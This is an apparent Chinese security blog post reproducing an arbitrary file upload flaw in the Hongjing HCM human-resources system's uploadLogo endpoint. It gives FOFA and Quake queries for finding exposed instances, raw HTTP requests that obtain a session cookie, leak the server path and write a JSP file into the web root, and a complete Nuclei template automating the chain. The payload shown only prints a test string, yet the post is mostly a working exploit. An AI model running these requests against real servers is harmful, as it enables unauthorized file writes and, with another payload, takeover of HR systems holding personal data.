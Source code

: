 #  【漏洞复现】宏景人力资源信息管理系统uploadLogo任意文件上传   
混子Hacker  混子Hacker   2024-11-09 22:30  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
即使阿迪克斯 达芬喝得烂醉如泥，不像某些人在神智最清醒的时候那般恶毒，世界上是有一些人，他们只顾担心来世根本不去学习今生如何做人，你顺着街道看过去，就知道会有什么样的结果  
 【  
摘自《杀死一只知更鸟》  
】 ——  
  
宏景HCM  
  
宏景HCM  
是一款全面覆盖人力资源管理各模块的软件，主要功能包括人员、组织机构、档案、合同、薪资、保险、绩效、考勤、招聘、培训等管理，以及多项业务自助功能  
。该系统  
uploadLogo存在任意文件上传漏洞  
   
  
  
  
  
  
  
漏洞信息  
  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
  
```
fofa: app="HJSOFT-HCM"
Quake：app:"宏景-HCM"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5owVEIX13BuN1NSnTyibgrmlMus1lsBXXCVqlrc1fiaUI6icibMwmnUk9WRw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5ot9ekwMexyoGfQ5u1Pz9FKTIibliaAo19xYk2ibWmjiayX2eqp8y5slZHmA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
1、访问  
/module/system/qrcard/mobilewrite/qrcardmain.jsp  
获取cookie  
```
GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
Host: xxx
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5ooibJPbrE34I6Pqs0Bw0rjicCmTpktkqkzwnMvhVTZWTQCxUNtuUYSxag/640?wx_fmt=png&from=appmsg "")  
  
2、携带cookie访问  
  
/sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1  
获取文件上传路径  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66
Cookie: JSESSIONID=C2AF006EB0EFAC26070DBC9A6AA10CF8
Accept-Encoding: gzip
Content-Length: 548

------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="path"


------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "hjsoft-upload-test" %>
------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "hjsoft-upload-test" %>
------WebKitFormBoundaryk8DbZoq3wNm32b66--

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5ofmicMHV2vVPp6HdicyEUJSh9vT6mv2Wo4AvyZDWxy4nNbpZibiaEUoAW0Q/640?wx_fmt=png&from=appmsg "")  
  
3、携带cookie和path上传文件  
```
POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
Host: xxx
Cookie: JSESSIONID=C2AF006EB0EFAC26070DBC9A6AA10CF8
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Length: 628

------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="path"

D~3a~5capache~2dtomcat~2d~39~2e~30~2e~36~34~2drsxt~5cwebapps~5cROOT~5cthomas.jsp
------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="lfType"

0
------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="logofile"; filename=""
Content-Type: image/gif

<%= "hjsoft-upload-test" %>
------WebKitFormBoundaryk8DbZoq3wNm32b66
Content-Disposition: form-data; name="twoFile"; filename=""
Content-Type: image/gif

<%= "hjsoft-upload-test" %>
------WebKitFormBoundaryk8DbZoq3wNm32b66--

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5oTggmCjiaNxHSj8zqcMfURf6TicxObVCr4hicuqZlLgibFtBLxSYWQtPKuw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGuPGFlRM8sK8Uspd2EQYl5o86zomTPwMXYJPKNWUxfiatehhJqkmPvbI2v7327Jp5LdfF6UgHevboA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: hjsoft-uploadLogo-fileupload

info:
  name: 宏景uploadLogo任意文件上传漏洞
  author: thomas
  severity: critical
  metadata:
    fofa-query: app="HJSOFT-HCM"
  tags: hjsoft,fileupload

requests:
  - raw:
      - |
        GET /module/system/qrcard/mobilewrite/qrcardmain.jsp HTTP/1.1
        Host: {{Hostname}}
      - |
        POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
        Host: {{Hostname}}
        Cookie: {{cookie}}
        Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66

        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="path"


        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="lfType"

        0
        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="logofile"; filename=""
        Content-Type: image/gif

        <%= "hjsoft-upload-test" %>
        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="twoFile"; filename=""
        Content-Type: image/gif

        <%= "hjsoft-upload-test" %>
        ------WebKitFormBoundaryk8DbZoq3wNm32b66--
      - |
        POST /sys/cms/uploadLogo.do?b_upload=upload&isClose=2&type=1 HTTP/1.1
        Host: {{Hostname}}
        Cookie: {{cookie}}
        Content-Type:multipart/form-data; boundary=----WebKitFormBoundaryk8DbZoq3wNm32b66

        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="path"

        {{filepath}}thomas.jsp
        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="lfType"

        0
        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="logofile"; filename=""
        Content-Type: image/gif

        <%= "hjsoft-upload-test" %>
        ------WebKitFormBoundaryk8DbZoq3wNm32b66
        Content-Disposition: form-data; name="twoFile"; filename=""
        Content-Type: image/gif

        <%= "hjsoft-upload-test" %>
        ------WebKitFormBoundaryk8DbZoq3wNm32b66--
      - |
        GET /thomas.jsp HTTP/1.1
        Host: {{Hostname}}

    extractors:
      - type: regex
        name: cookie
        part: header
        group: 1
        internal: true
        regex:
          - "Set-Cookie: (.*?);"

      - type: regex
        name: filepath
        part: body
        group: 1
        internal: true
        regex:
          - 'value="(.*?)images"'
    req-condition: true
    matchers:
      - type: dsl
        dsl:
          - "status_code_1 == 200 && status_code_2 == 200 && status_code_3 == 200 && contains(body_4, 'hjsoft-upload-test')"
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
  
  
